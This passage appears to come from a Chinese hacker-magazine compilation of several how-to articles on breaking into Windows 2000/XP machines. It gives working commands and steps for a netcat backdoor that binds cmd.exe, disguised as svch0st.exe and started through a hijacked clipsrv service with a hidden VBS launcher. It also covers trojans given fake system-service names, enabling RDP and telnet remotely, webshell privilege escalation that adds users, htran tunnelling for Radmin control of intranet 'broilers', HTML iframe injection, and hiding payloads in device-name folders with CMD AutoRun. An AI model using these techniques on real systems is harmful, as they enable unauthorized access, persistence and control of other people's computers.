就上传到对方的默认磁盘，填写 `\c$\3389.exe`。在“自定义命令执行”里填入 `3389.exe`，就可以让远端运行。然后打开 3389 终端服务，便可远程登录了。几分钟后我们拿出 3389 登录器，看到目标 IP 如图4。


### 其次——上传木马，控制肉鸡

我们这里上传木马，控制对方吧。开始配置：点击相关选项，选择“配置正向服务端”（如图5）。关于木马的一些说明处通常不需复杂设置，选择保存路径和名称后，点击“生成服务端”。


再说一种技术——反向连接。选择“配置反向连接服务端”（如图6），在“自动上线 URL/域名”处填写内网 IP 与端口（自定义监听端口）即可，例如 `192.168.1.8` 及对应端口，并设置上线连接密码。


安装选项里可勾选“自动删除安装文件”，安装名称可自定义但通常以 `.exe` 结尾。启动项可做得更隐蔽：勾选相关项后，显示名称、服务名称、描述信息可进行伪装。

> 显示名称：Messengre  
> 服务名称：Messengre  
> 描述信息：发送和接收系统管理员或者“警报器”服务传递的消息。

我这里完全是参照系统中的服务来写的，写个相似于系统中本来有的服务，那样隐蔽性会比较强……高级选项，我们把第一个和第三个勾上就可以了。一个是插入 iexplore 系统进程的，一个是启动隐藏文件等。


最后一个选择图标，随个人喜好，基本上设置好了就生成即可……生成服务端即可，如图9。


哈，这个服务端还挺有特色的……运行后会自动删除的，如图10。上线了之后，文章继续介绍后续连接和控制步骤。

### 最后——打开最简单的 telnet 后门，别让鸡鸡跑啦

这一步是直接用这个工具轻轻一点就可以完成……先进行 IPC$ 连接，填写 IP、用户名、密码后点击“建立连接”，再点“开 telnet”按钮。


```bash
telnet 192.168.1.6
```


这里显示我们已经成功开了对方的 telnet 服务，并且 telnet 上去了。以后如果木马被清理，还可以继续通过 telnet 维护。文末是作者感想与结束语。

### 接上第102页

注意，两个键值都有 PortNumber，后面是端口号的 16 进制值……可以将默认端口改为 3004～3006 等。修改后在相关 RDP 配置中增加 `server port:i:端口号`，保存后即可连接。

由于安全意识提高，传统木马更易被查杀，建议使用更隐蔽方式。这里继续讲通过替换/复制相关文件实现远程管理的思路。

```text
rdpclip.exe
fxfr.dll
rdpdr.dll

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\StartupPrograms
```

文中说明将相关文件复制到 `\winnt\system32` 与客户端目录，修改注册表启动项为 `rdpclip\rdpclip.exe`（原为 `rdpclip`），随后通过客户端连接即可进行文件复制等操作。


## 傻瓜黑客

### 利用系统的“管理”入侵局域网

黄冠华


大家好，这是我的第一次写稿，原本没有发现这个可爱的东西，都是因为那个死人老板。今天我咳嗽得厉害，向他请假提前回家，但他不批准，于是在机房搞他的机器，便有了这篇文章。好，闲话休提，现在转入正题。首先，右键点击“我的电脑”，选择“管理”，再对着“计算机管理（本地）”右击，选择“连接到另一计算机”，弹出一个对话框，如图1所示。


这个可是局域网哦，这里我随便找一个同学的机器，就 USER-16 吧！对着 USER-16 双击后，“计算机管理（本地）”变成了“计算机管理（USER-16）”，如图2所示。对着它，右键“属性”→“高级”，这时，你会看到一个按钮“启动和故障恢复”，如图3所示。单击此按钮，这时又弹出一个新的画面，如图4所示。


看，右下方是否有一个“关机”按钮，单击它后出现一个如图5所示的画面，呵呵！我们现在可以搞恶作剧啦。在操作里选择你想做的恶作剧，在“强制应用程序关闭”那里我们选择“总是（可能丢失数据）”，按“确定”后去看看你同学的机器怎么样了，呵呵，是否很过瘾啊。


现在我们再搞些好玩些的，入侵他。现在我们把画面回到如图2所示的那样，然后选择“服务和应用程序”，再双击“服务”，就会出现一个画面，如图6所示。这里呢，我把它的 TELNET 设置为启动，启动类型设置为自动，没有设置之前如图7所示。


然后，我再去把他的 NTLM 给设置成禁用，效果如图8所示。


现在，在 CMD 下试试看行不行。首先我们在 CMD 下输入 `telnet 192.168.1.16`，如图9所示。这个 IP 是他机器的 IP，按回车后，看看，好的，成功了，如图10所示。


这个我是在 WIN2K 下尝试的，相信聪明的你很容易举一反三。还有，这篇文章毫无技术可言，望高手勿笑。最后我想说一句话，漏洞是无处不在的，只要你肯发现。

## 傻瓜黑客


网上开启 3389 的工具非常多，但是我估计还有很多兄弟不知道其中的原理吧，因此就写了这篇稿，希望众兄弟能对 3389 知根知底，才能百战百胜。

如果没有安装服务，可以用到很流行的一个批处理：

- WIN2K 下开启远程桌面实质是 4 个条件：
- 开启了 Terminal Services 服务。
- 在“我的电脑 -> 属性 -> 远程”中把“允许用户远程连接到此计算机”打开（相关设置已开启）。
- 安装了远程桌面组件（可用 `net use` 等方式辅助连接）。
- 开启了 IPC$ 共享（默认一般开启）。

```bash
echo [Components] > c:\sql
echo TSEnable = on >> c:\sql
```

```bash
sysocmgr /i:%windir%\inf\sysoc.inf /u:c:\sql /q
```

这是一条真正安装组件的命令。`sysoc.inf` 文件主要用于安装 Windows 组件；在 2000/2003 中默认安装该组件，XP 中这样使用可能会提示插入安装介质。

下来，我们就来说说怎么实现吧！

- 要开启 Terminal Services 服务，用 SC 等命令行工具不行，这个服务主要依赖于注册表，大家来看：

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer]
"TSEnable"=dword:00000001

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD]
"Start"=dword:00000002

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService]
"Start"=dword:00000002
```

这三项键值决定了 Terminal Services 服务启动状态为已开启。

- 第二条在 GUI 下较简单，但在实际入侵过程中常在 SHELL 下解决，最简单办法是修改注册表文件和批处理。

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer]
"fDenyTSConnections"=dword:00000000
```

`fDenyTSConnections` 的值直接决定是否允许远程连接：0 允许，1 不允许。

- 安装组件：如果已拿到对方 SHELL，可执行 `query user` 确认服务是否安装。

```text
USERNAME  SESSIONNAME  ID  STATE   IDLE TIME  LOGON TIME
> xw      console      0   运行中  .          2002-1-12 22:5
```

类似这样的信息，可能组件就已安装。

- IPC$ 共享默认一般是开启的，它与注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` 下某键值有关，通常设置说明为 1 关闭 IPC$、0 开启（理论上）。

把前面内容整理成批处理 `.reg` 文件可直接使用；文中也提到不建议用 RAR 自解压直接上传执行，容易引起目标侧明显异常。

现在已经会开 3389 了，但是 3389 端口太显眼了。可以更改端口，实际是修改注册表两个位置：

```reg
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp]
"PortNumber"=dword:00007e0

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00007e0
```

### 利用 NC 打造灰色地带的后台启动

大家都知道 NC 是一个强大并且灵活的黑客工具，用它可以做很多事情。本文讨论如何把 NC 打造为一个服务级的后门，并在系统重启后依然可用。

- `-e` 绑定一个程序并且连接时执行
- `-l` 监听模式
- `-p` 指定 nc 要运行的本地端口
- `-L` 增强监听模式，连接断开时再次监听

```bash
nc -l -e cmd.exe -p 8888
```

```bash
nc -L -e cmd.exe -p 8888
```

为了隐藏与持久化，文中建议将 nc 伪装命名为 `svch0st.exe`/`svchost.exe` 并放置到 `%systemroot%\system32` 等目录，再通过系统服务方式启动。

```bash
sc config clipsrv start= auto
sc config clipsrv binpath= "c:\winnt\system32\svch0st.exe -L -e cmd.exe -p 8888"
sc start clipsrv
```

先启动服务，然后通过 `netstat -an|find "8888"` 检查 8888 端口是否打开。文中指出服务可能被系统机制结束，因此继续改造为更稳定的服务启动方式。


后续尝试提到使用 `bat2exe` 遇到服务访问错误，转而考虑使用 `WinRAR SFX` 封装可执行文件，并结合 `run.vbs` 与 `cscript.exe` 调用以实现更隐蔽和持续运行。

exe run.vbs，如图 3。其中 run.vbs 里的内容如下：


```vb
dim sh        ' 定义变量
set sh=createobject("wscript.shell")   ' 取得 WSH 对象
sh.run "nc -L -e cmd.exe -p 8888",0    ' 执行程序并隐藏窗口
```

而自解压的路径写上 `%systemroot%\system32`，这样我们自解压服务程序就做好了，保存为 clipsrv.exe。现在修改我们的 clipsrv 剪贴簿服务路径为 `c:\winnt\system32\clipsrv.exe`，命令如下：

```bash
sc stop clipsrv
sc config clipsrv start= auto
sc config clipsrv binpath= "c:\winnt\system32\clipsrv.exe"
sc start clipsrv
```

现在一切 OK 了，这样一来我们的程序参数细节还会被屏蔽。先 `net start clipsrv`，然后 `netstat -an | find "8888"`，看是否开启端口，最后用 `nc 127.0.0.1 8888` 连接上去得到 shell。

本文是我看了一个动画之后想到的，后来自己想到完全可以将 nc 改成后门。虽然这种做法还有缺陷，比如不能返回信息给服务控制器，某些错误不好定位，身份验证也较弱，但作为思路仍有价值。


### 菜鸟玩转 Chinaren

Chinaren 校友录号称“国内规模最大、数据最全、服务最稳定的校友录社区之一”。然而笔者发现其班级宣言处存在可利用的 HTML 标签注入问题，可被插入外部页面。

- 进入班级管理，点击“班级管理”。
- 在“班级宣言”处切换到“文本编辑方式”。
- 输入 `<iframe src="http://www.hackerxfiles.net/index.php" width="400" height="240" border="0"></iframe>` 并提交。
- 返回班级首页，即可看到嵌入页面。


请勿将文中方法用于非法用途。

## 盗亦有道

大家好，今天和大家研究一下怎么样在网上偷东西。看到这题不必惊讶，不要胡想。大家有没有听见过这种情况，在网吧听歌的时候碰到自己喜欢的，想把它下载下来的时候，网站却提示不提供下载？但可以在线听，难道真的不可以下载？或者是自己新做了一个网站，出于面子问题想给自己找点歌连上，搜索引擎搜出来的又不稳定，难道真的没有好的办法么？答案肯定是有的！那么且听偶细细道来，废话少说，进入我们今天的正题！“盗”亦有道！

独孤小鹿

### 第一种方法：查看源文件

我们就先拿 www.QQ163.com 开刀吧。随便打开个页面……我们点鼠标右键，选择“查看源文件”，晕，右键被屏蔽了，弹出图1。


图1

这时我们不要松开右键，直接按空格，对话框消失，这时再松开右键，右键菜单就出来了。我们选择“查看源文件”接着会弹出记事本文档，我们按 `Ctrl+F` 查找，输入“value”点击“查找下一个”，就能找到真实地址（如 ram 等格式链接）。


图2

其实这个也比较麻烦，如果你用的是腾讯的 TT 浏览器就可以直接选择查看源文件了，如图2。

### 第二种方法：查看不到源文件

我们还是来 QQ163 点击“经典老歌”……在这里随便点一首歌，任你怎么查看源文件也是查不出来的。不过这也没关系，具体问题具体解决，我们在播放器上点击右键选“在 RealOnePlayer 中播放”，如图3。


图3、图4

接着就会弹出一个 RealOnePlayer。或者“文件”→“剪辑属性”→“查看剪辑信息”，我们就会看到如图5。


图5

其中“文件名”那一栏就是我们要找的真实地址，也可以选中播放器周围的文字，按 `Ctrl+C` 复制到 FrontPage 中，双击后就会看到真实地址了。这种方法的前提是对方没有屏蔽 Ctrl 键。


### 第三种方法：查看“历史记录”

我个人认为这是最经典、也最简单的。我们去 WWW.DJ99.COM 看看，随便点首歌，打开播放时查看历史记录，把地址展开就能看到真实地址，直接右键“属性”即可看到。


### 第四种方法：IE 临时文件夹

去 IE 临时文件夹找，默认路径是：`C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files`。找到对应文件名即可。一般这里面的音乐文件会有两个同名条目，点“属性”可找到真实地址；若要下载可直接“复制”到别处。这个目录会保存浏览网页时的图片、视频、文档等，音频文件通常也在其中。

小弟头一次写东西，不足之处还望大家指出。祝大家玩得愉快！

## 潜入新利器——WEB综合检测工具

哈哈，总算会考完了，现在可是一身轻松了 ^_^。今天给大家带来的是我林祥最近推崇的一款新工具——WEB综合检测工具最新版，可以到主页（www.gxgl.com）下载。下面就听小鱼为你细细道来！

打开 WEB 综合检测工具，界面如图1，看看作者对它的说明：

- 域名到 IP，再根据 IP 查绑定的国际域名；
- 同网段 WEB 主机扫描，服务器基本信息查询，IP 物理地址查询；
- 网页浏览时自动获取当前站点所设的 Cookies，并能自定义 Cookies 进行浏览；
- 能以 POST 方式对网页进行浏览，并能提交自定义数据；
- 点击下方的“Link Name”或“Target URL”即可获得当前页的所有链接地址；
- 当上方的禁止新窗口按钮按下时，对新开的窗口是禁止的。


> **小鱼提示：**在服务器工具拿不到 webshell 的情况下，可以试试这个，个人认为它的检测同一网段比较好用。

界面很清晰，适合咱们菜鸟使用。首先，确定一个目标，在左上方输入网址（注意输入时不能带有 `HTTP://`），如图2，然后点击右边的“>”，即可获取 IP 地址。


成功获得 IP 地址后，IP 一栏的右边几个选项变为可用状态（图3），它们所对应的意思分别是：


- g：获取国际域名
- s：扫描网段
- a：查物理地址
- i：服务器信息

我们点击 g 后，程序就会查出此 IP 绑定的所有地址（图4），点击一个网址后右边窗口就会打开其网页。


点击 s 后程序就会对检测 IP 所在的网段主机进行扫描，如果开放了 80 端口就会显示出来（图5），我们可以通过入侵同网段的主机来达到入侵指定目标。单击一个 IP 即可打开主页。


点击 a 后会弹出一个服务器所在地理位置的窗口来判断服务器所在地区（图6）。


单击 i 会弹出一个“服务器信息”检测窗口，主要是用来收集服务器信息的（图7）。在其中输入网址或 IP，点击“web服务器信息”就可以获得 HTTP 头部信息。


有什么用？一般页面会包含服务器的 IIS 版本信息，根据这个可以大体判断服务器的版本。为了方便大家，我总结一下不同 IIS 版本对应的操作系统：

| IIS版本 | 对应系统 |
|---|---|
| IIS 4 | Windows NT 4.0 |
| Personal Web Server | Windows NT 4.0 Workstation |
| IIS 5 | Windows 2000 Server（所有版本） |
| IIS 5 | Windows 2000 Workstation（功能有限的客户端版本） |
| IIS 5.1 | Windows XP Professional |
| IIS 6 | Windows Server 2003（所有版本） |

根据上面的表，可以判断出我这台主机是 WIN2003。在打开网站后，点击下面的“Link Name”或“Target URL”可以获取本页所有的连接地址。


进行 SQL 注入检测（图9）。最后就是自定义 Cookies，点击上方的图标位按钮（图10）后，下面的 cook 变为可写，这样就能方便我们进行 Cookies 欺骗了！由于这是刚出的一款工具，可能有些功能还不够全面，请多包涵！好了就到这，88！


（本文涉及的相关工具：WEB 综合检测工具，光盘中有收录。）


作为一名有理想的菜鸟，看了 X 两年多，也应该有了属于自己的见解，也应该写出一点东西来给大家看一下了。本来是不想写这篇文章的，自己文采有限，以前也从来没有写过类似题材的文章。但最近几天发生了一些事，使我改变了想法，事情的经过是这样的：

大约五月份中旬，偶去网吧查资料，一查就是一宿。第二天早上五点多终于写完了，伸了个懒腰，习惯性地点开了 X 的论坛，发了几个帖子，正准备去睡觉，忽然看见一篇名为“免费刷 QQ 号”的帖子，不该刷后悔。点了进去，原来也是花 $ 的，只 FREE 一天。看着楼主的资料，留主页了，就去看看。其实说是主页，里面也没什么内容，只有一个 QQ 表情包的链接。DOWN 到本地是一个 QB.exe 文件，也没多想就运行了，一下加了 128 个 QQ 表情，看了一下还可以，就要去睡觉了，可这时奇迹发生了，偶的三个 QQ 竟然同时关闭了。直觉告诉我——中招了。马上又去 DOWN 了一份 QQ 表情包，放到网盘里，以后备用。重启了一下机器，还原卡工作了，世界清静了……

重启后，马上打开 APS 开始探测。哦，对了，还没介绍，APS 是一款国外的 WEB 嗅探器，全称是 Ace Password Sniffer，GUI 界面如图1。点击三角号开始工作，点击方块停止工作，Export All 以文本方式导出嗅探结果，而且在右下角位置还可以显示探测到的个数。个人觉得，这个软件虽然是旧文里的，也比 X-Sniffer 之类的嗅探好用很多，操作直观、方便。

回到正题，点 START 开始工作，把 QB.exe 从网盘里 DOWN 下来，双击运行，找了个不常用的 QQ 上线，APS 那有了反应了，如图2。其 IP“202.108.44.136”是网易的服务器 IP。现在，用户名、密码都有了，LET'S GO! 进他邮箱看一看。右键点击探测到的 IP 信息，选择“Visit the Server”，原来是 @163 的信箱。

看起来也没有什么成果，邮箱里面只有他发给自己的几封信，还有十几封九位 QQ 的邮件。偶刚才用来钓鱼的 QQ 也在里面，由于当时没什么准备，也没想写此文，就没有抓图，各位读者海涵了。想想都是同道中人，就没有改掉他信箱的密码，也没删他信件，只是把有关假 QQ 的资料删了，然后又去坛子里发了一个驳“免费刷”一文的帖子。

后来楼主用别的 ID 发了一个向广大黑迷道歉的帖子，我们也相互加了 QQ，现在我们成了朋友。这件事到此也就算告一段落了。可昨天上网，偶的 QQ 群里有人说运行了群共享里的软件，QQ 就丢了。打开群共享一看，偶晕了，37907**** 这家伙竟放了“QQ 大盗”在里面，还改成了诱惑性的名字（图3）。方法很初级，四个文件同样大小，我想应该没几个人会去运行的吧。


## 傻瓜黑客

图4  
图6  
图5

和 37907**** 聊了一下，要他给个解释，这家伙竟和我装迷糊（图6）。因为上次知道他的盗 QQ 的信件是自己发给自己的，收信和发信是同一个邮箱。他不仁，就别怪我不义了。改了他的密码，他就再也收不到 QQ 信件了。可我第二天再去网吧的时候发现他已经重新改密码了，手倒是很快嘛。不过也好，不用我动手了。我这也算是为苦苦大众办了一件好事吧，哈哈。

本文没什么技术性可言，只是想提醒广大网民提高安全意识，偶不就是因为一时大意差点中招吗？另外，我想提醒各位黑友，盗取他人隐私信息是不道德的行为，不要扭曲了 HACKER 这个词的含义。在此感谢 Dreampinion & SOSO，行文仓促，难免有错漏之处，望高手指正。

## 后记

本文作于 6 月 1 日，原标题为“让你偷鸡不成蚀把米”，没想到 6 月 5 号却看到了《X 档案》6 月刊，上面有 SUPERCOW 兄的一篇“让盗号者偷鸡不成蚀把米”的文章，写得简单明了，而且我们也算是心有灵犀呀，文章的名字都够一致。看来现今行侠仗义的人还是不少哟，不过偶是滥竽充数的。本人在 X 论坛 ID：silent，愿结交天下朋友。

## 与防火墙 + 杀毒软件打场时间差游击战

年晓东

前一阵子瑞星在沸沸扬扬地宣传它的抢先式杀毒技术，也就是在登录进入 Windows 系统之前启动杀毒监控功能。由此我们可以大胆地进行推测：是不是在登录系统之前的时间段中，吾辈所最不齿的天网等防火墙和一大堆杀毒软件都在睡觉啊？若真是这样的话……前面就倒下了，如果我们在这个时间差上做做文章，入侵就变得轻而易举了。既然发现问题了，那就解决它。方法非常简单，让 Windows 启动时自动登录就可以了。

### 一、对天网防火墙 + 杀毒软件的刺探试验

目标就选择本校物理组的 Win 2000 Server（不好意思，笔者是个黑客网管：）），上面装有鼎鼎有名的天网防火墙和卡巴斯基杀毒软件。把 Server 重启一次，当停在“按 Ctrl-Alt-Del 组合键进行登录”界面时就暂停登录，到自己的机子上启动 DameWare NT Utilities，在“Browser”中依次选择“Microsoft Windows Network”→“本地组名”→“Servers”→“WULIZU”，定位好目标主机后，继续双击其中的“Processes”就会弹出它的进程名（如图1）。

图1

果不出所料，天网防火墙的进程 PFW 不在其中，说明并未运行；但卡巴斯基却出现了一个监控内存的进程 kavsvc，不过另一个 kav 主进程也没有运行。然后正式登录进入 Server，再用 DameWare NT Utilities 重新探测一次（如图2）。对此一比，此时天网的 PFW 才出现，卡巴斯基的 kav 主进程也运行了。由此我们就很容易得出结论：在 Win 2000 Server 登录之前，天网防火墙未运行，部分杀毒软件（像卡巴斯基、瑞星等）已有所行动，证实了我们先前的猜想……

#### 二、改注册表，取消登录对话框

老规矩，“开始”→“运行”，输入“Regedit”启动注册表编辑器。依次找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`，新建字符串值 `AutoAdminLogon` 并设为 `1`，再新建 `DefaultPassword` 并写入对应密码（如图3、图4）。重启 Server 后即可自动登录。

#### 三、后遗症与补牢

时间差“漏洞”已堵上，但对能接触 Server 的内部人员而言风险仍在。可通过设置启动屏保来缓解：先设置屏保密码，再将对应 `.scr` 文件快捷方式放入“开始”→“程序”→“启动”。

## Webshell 提权总结

- 1. 通过 pcanywhere：在相关目录查找 `.cif` 等文件，使用工具解密口令。  
- 2. 在 `c:\winnt\system32\config` 或 `c:\winnt\repair` 查找 SAM 表并尝试离线破解。  
- 3. 查找 Serv-U 目录，修改 `ServUDaemon.ini` 增加用户（示例含 `[USER=icpobird]]`、`Password=`、`HomeDir=c:\` 等）。  
- 4. 利用 `c:\WINNT\system32\inetsrv\data\` 等目录的权限问题。  
- 5. 利用 `c:\inetpub\adminscripts\adsutil.vbs`（如 `cscript ... get w3svc/inprocessisapiapps`）。  
- 6. 利用 `C:\Program Files\Java Web Start\` 等路径尝试 JSP WebShell。  
- 7. 若主机使用 MSSQL，可查找 `conn.asp` 等数据库连接文件获取账号密码。  
- 8. 对“SQL 通用防注入”类工具可通过代码审查绕过（如 `Check_SI.asp` 相关）。  
- 9. 通过公开漏洞（如 MS05-020）配合 EXP 提权与开端口。  

```ini
[USER=icpobird]]
Password=
HomeDir=c:\
```

```bash
cscript C:\inetpub\AdminScripts\adsutil.vbs get w3svc/inprocessisapiapps
quote site exec "net user icpobird 123456 /add"
```

### 出口映射配合 Radmin 控制内网肉鸡

雪原

写这个命题有炒冷饭之嫌，但是对很多菜鸟来说，真的一直存在困惑：“为什么木马老连不上啊，为什么对方运行了我的木马，我却不能控制？”常有人在网上问我这些问题，我反问，却发现他们不知道内网外网为何物，根本不能对他说清楚。所以或许写这些东西能对新手有一些启示。毕竟大家都是这样一步一步过来的，不容易啊！简单地说，要控制到对方，就必须要让你的木马能够在茫茫网络中找到你，或者你能够找到它。

我们都知道，公网 IP 也就是外网 IP 能够在网络上被识别，而形如 192.168.0.x 的 IP 就叫内网 IP，只有你所在的局域网内的主机才能够识别你。对于 Internet 上的其他主机来说，它们只认识你的网关的外部 IP。这里为了不至于偏离本文的题目，不再深入和全面地讲解关于远程控制的原理，不然的话，有骗稿费的嫌疑了，呵呵~~下面言归正题。

Radmin 这款远程控制软件很优秀，现在几乎是笔者鸡鸡必装的，倒不是因为它有多么隐蔽，它的最大优点是不被杀毒软件查杀（不过现在破解版已经被诺顿和卡巴杀了，黑友要注意，免得搞得鸡飞蛋打哦~）。另外，它的稳定性特别好，文件传输和截屏速度也是一流的，在 XP SP2 上也能很好地安装运行，现在好多后门在 SP2 上比较难装上。

好，下面我们分别在 A、C 两台肉鸡上运行命令（不分先后，因为它都是循环的监听和连接），如图2、图3。命令执行完毕，按图提示，表示连接成功；整个通路已经畅通，我们现在用 Radmin 来连接。

下面以我内网的一台机器为例吧，IP：192.168.0.188，我现在给它安装好 Radmin，端口我开的是 7（这样要隐蔽些，最好别弄 4899，好像只有傻子不知道那是干什么的，HOHO~）。我的 IP 是 192.168.0.156，我现在和它在一个内网，我连下试试，如图1成功。现在到了比较关键的端口映射部分。

按照一般的思路是在你外网肉鸡上安装 vIDC 服务，但是这里我们用简便一点的办法。我们使用红客出的一个多线程的包转发工具 htran.exe，它既可以作为客户端运行，也可以作为服务端运行。这里使用 lcx 修改过的版本，参数少了很多，看看它的用法先。

下面以我的实例来说明：设内网被控主机为 A，IP：192.168.0.188；攻击者为 B，我的 IP：192.168.0.156；被控第三方主机（有公网 IP）C，IP：61.178.85.x。

### 执行命令如下

```bash
A.htran.exe slave 61.178.85.x 8000 192.168.0.188 7  // htran作为客户端运行，8000为与外网肉鸡的连接端口，7是被控内网主机的Radmin端口
C.htran.exe listen 8000 8002                        // 8000是与客户端的连接端口，8002是等待外来连接端口
```

然后你用 Radmin 连接 61.178.85.x 的 8002（知道这个端口的用途了吧？）如图4，成功了！

输入密码，成功进入了。无论是 Telnet 文件管理，还是屏幕监视都没问题。也就是说，现在你可以走出去，找到另外的一个网吧，只要你连接 61.178.85.x 的 8002 就可以控制在这个网吧的那台机器了（我在网吧，呵呵~~）。

值得注意的是，htran 由于总是不停循环地在工作，如果你的外网肉鸡不幸挂掉的话，只要客户端还活着，你重新开始监听，又可以开始连接，这一点很重要。而且，在肉鸡的 shell 下运行这两个命令后，即使把 shell 窗口关掉也并不影响它的继续运行。

为了保证内网肉鸡重新启动后仍能映射端口，这里遇到个问题，还希望高手能提供个解决办法。我用 instsrv.exe 安装成服务，但是不能启动。写入注册表启动项可以成功启动，但是会出窗口，而且即便是用 vbs 脚本调用，也不能隐藏，很是郁闷。我觉得大家不仅要在 X 学东西，还应该把这当成我们很好的交流平台才对啊，欢迎赐教（小编注：用 .inf 文件即可）。

解决这个问题，具体请参见“Radmin 终结者”提供的方法。

文章尽管的确是炒冷饭，但是兴许能够让新手们领悟到些新的东西，毕竟大家都在成长。暑假时间多啊，雪原每天只有上网了，欢迎朋友来找我交流。

（本文涉及的相关工具：远程控制 Radmin、htran.exe、instsrv.exe，光盘中有收录。）

### 轻松更改文件关联

JACKSON

一日自己不小心玩木马玩出火了，几个重要的文件关联全改了，使我非常郁闷。听别人说要改注册表才能修改回来。无奈，本人鸟蛋一个，玩不转注册表。只好另寻它法，皇天不负有心人，我终于找到了。

先来看看错误的文件关联，图1（我改 `.txt` 文件用 `.exe` 打开）。

为什么呢？因为我改了文件关联（废话，要你说），而这一切都只需一个命令就可以完成。

```text
显示或修改文件扩展名关联
ASSOC [.ext[=[fileType]]]

.ext      指定跟文件类型关联的文件扩展名
fileType  指定跟文件扩展名关联的文件类型
```

键入 ASSOC 而不带参数，显示当前文件关联。如果只用文件扩展名调用 ASSOC，则显示那个文件扩展名的当前文件关联。如果不分文件类型指定任何参数，命令会删除该文件扩展名的关联。

输入 `assoc .txt=txtfile` 回车（assoc 与 .txt 间有空格），显示 `.txt=txtfile`，如图2。

这样，文件关联就轻轻松松地被改回来了。（注意，如果打开某个文件的程序不见了，这样只能恢复关联，并不能打开，必须重新装打开这个文件的程序。）相信大家看了之后就会举一反三，以后没什么文件关联可以难倒你。

## 系统服务 1058 错误的退役

王艺翔

常常在网上玩，也喜欢在一些论坛上闲逛，老遇到朋友问这个问题：“为什么启动不了 terminal services（即3389）？系统发生 1058 错误，无法启动服务，原因可能是它被禁止或与它相关联的设备没有启动。”问了有 N 次了，我的回答只是一个答案：你把系统重装一下吧。

当时我没有想怎么解决这个问题，自己懒啊。伟人说：只有关系到自己的利益的时候你才感觉心痛。现在问题就出现在我的贵机上了，如图1，情况一模一样，十分危急（只不过我拿的是 telnet 服务举例，terminal services 服务也是一样的）。

怎么办啊？只有自己瞎摸索了。也许我的运气真的好，30 分钟后问题解决了。在此我把方法介绍给大家，也许并不适合你的机器，但是这毕竟是一种思路。

大家看图2，注意到下面那个“硬件配置文件”吗？一般是禁用的，我们先点“启用”再点下“应用”，最后回到“常规”启动服务——看看，是不是成功启动了呢！

我刚才说过了，这个方法不一定在你的机器上就实用。一般我遇到这样的情况首先会想是什么导致服务启动不了，微软有错误提示。比如有个错误是这样的：“错误2，系统找不到指定的文件”，这就说明你的系统可能中毒导致文件丢失了，那你从其他地方拷个文件过去问题就能解决。当然了，还有好多好多解决的方法，希望各位能多多挖掘。

### 自动运行程序新方法

阿海

大家知道，要想让程序能自动运行可以有很多种方法，比如说通过注册表 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 项和 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 项来启动，或者会注册为系统“服务”程序。更老一点的方法是利用 Autoexec.bat、Config.sys、Winstart.bat、Win.ini、System.ini、Wininit.ini 等文件来达到让程序自动运行的目的。除此之外要想让程序可以自动运行还有很多方法，下面是两种比较新的方法，在此与大家分享。

#### 第一种方法

点击“开始”菜单中的“运行”，输入 Regedit 按回车键，打开注册表编辑器。展开注册表到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Command Processor`，新建字符串值“AutoRun”（如果本来就存在就不需要这一步），双击“AutoRun”，在出现的“编辑字符串”窗口中输入想要执行的命令。举例来说，假设你要运行收发邮件软件 Foxmail，则输入 `"C:\Program Files\Foxmail\Foxmail.exe"`（图1），然后点击“确定”即可。注意，使用文件的短文件名也可以，如将 `"C:\Program Files"` 写为 `"C:\Progra~1"`，如图所示（图2）。

现在点击“开始”菜单中的“运行”，输入 cmd 后按回车键，在打开“命令提示符”窗口的同时，就会自动运行你设定的程序。注意，对于系统所在目录下的程序如 C:\Windows 下的记事本程序 notepad.exe，以及 C:\Windows\System32 下的程序如 ipconfig.exe（还可以加参数运行），则无需输入程序的路径，只要输入程序名就可以了（.exe 或 .com 文件都可以）。另外，本方法还可以自动运行 .bat 和 .cmd 文件，只要把“AutoRun”的键值设定为要运行的 .bat 文件或 .cmd 文件的路径就可以了（当然，.bat 或 .cmd 文件中要有相应的、包含有要想自动运行的程序路径和文件名的内容在内）。

这种修改方法对所有用户都有效。如果想仅对当前用户有效，则可以修改注册表 `HKEY_CURRENT_USER\Software\Microsoft\Command Processor` 下的字符串值“AutoRun”，这样就不会对本机中的其他用户造成影响。其实，本方法利用的就是 CMD 的 AutoRun 功能，只要你打开 CMD 窗口就会自动启动事先设定的程序，有一定的隐蔽性，如果和设备名漏洞结合起来就更隐蔽了！当然，如果被木马等程序所利用就更可怕了！大家知道，在正常情况下，我们无法在 Windows 中用设备名 aux、com1、com2、prn、con、nul 等来命名文件或文件夹，但 Windows 2000/XP 有个漏洞可以以设备名来命名文件或文件夹，这样程序就可以大模大样地躲在那里而不会被我们发现！

下面简单谈一下实现方法。首先，进入命令提示符窗口，然后输入：

`md c:\aux\\\`

该命令就可以建立一个名为 aux 的目录，而正常情况下是无法在 Windows 下建立这类目录的！在资源管理器中点击试试，你会发现当我们试图打开以 aux 命名的文件夹时 explorer.exe 失去了响应（图3）！现在我们可以把文件复制到这个特殊的目录下，必须用特殊的方法才行。在 CMD 窗口中输入如下命令：

`copy 1.exe \\.\c:\aux\`

就可以把文件 1.exe 复制到 C 盘下的 aux 文件夹中。要想运行这个 1.exe 文件，只要在命令行方式下输：

`cmd /c \\.\c:\aux\1.exe`

就可以了。当然，这不是我们的终极目标，我们的目的是使这个 1.exe 文件能隐藏地自动运行。接下来，在注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Command Processor` 下新建一字符串值 AutoRun（注意：我们上面提到的方法要利用上了），值为要运行的 .bat 文件或 .cmd 文件的路径，如：`c:\windows\system32\auto.cmd`，然后建立相应的文件 auto.cmd 文件，它的内容为：

